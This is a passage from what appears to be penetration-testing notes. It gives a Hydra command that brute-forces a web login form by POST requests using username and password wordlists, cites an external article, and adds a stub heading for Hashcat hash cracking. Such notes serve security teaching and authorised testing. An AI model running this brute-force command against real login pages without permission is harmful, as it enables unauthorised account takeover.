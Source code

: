 ### HTTP POST Form

Hydra supports attacking web applications that use POST requests for login forms. For example:

```bash
hydra -L users.txt -P passwords.txt http-post-form "/login.php:user=^USER^&password=^PASS^:Invalid Login" -V
```

This command targets a web page with a login form, sending POST requests with specified parameters.

More info:

```
https://www.blackhillsinfosec.com/hacking-with-hydra/
```

----

## Cracking Password Hashes using `Hashcat`

**Check in Practical's section**

